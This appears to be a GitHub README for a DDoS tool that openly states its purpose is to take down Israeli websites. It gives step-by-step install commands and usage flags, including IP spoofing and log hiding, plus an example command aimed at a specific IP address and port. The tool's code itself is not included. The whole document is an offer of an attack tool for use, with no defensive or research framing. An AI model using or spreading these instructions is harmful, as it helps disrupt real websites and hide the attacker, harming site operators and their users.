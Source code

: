# Cyber-Sorcerer DDos

[Telegram Channel](https://t.me/prezom_virus)

## 
[My Telegram Account](https://t.me/Not_found_404_not_responding)


A powerful DDos tool to make down Israeli websites. This tool Owner CYBER SORCERER 



## installing

- 1 . <code> pkg install python </code>
- 2 . <code> git clone https://github.com/cybersorcererbd/C-SDDos.git </code>
- 3 . <code> cd C-SDDos </code>
- 4 . <code> pip install -r installing.txt </code>
- 5 . <code> python C-SDdos.py -h  </code>




### Command information:
    To use
$ <code>python C-SDdos.py [-i] [-p] [-l]    </code>     

│         -h : For help                          
│         -i : Server IP                        
│         -p : IP                   
│         -l : Atatck Level              
│         -f : Fake IP                            
│         -d : Hide Logs                       
                     :usage 
<code> python C-SDdos.py -i 92.204.214.136 -p 80 -l  2 </code>


Hope you like this tool.
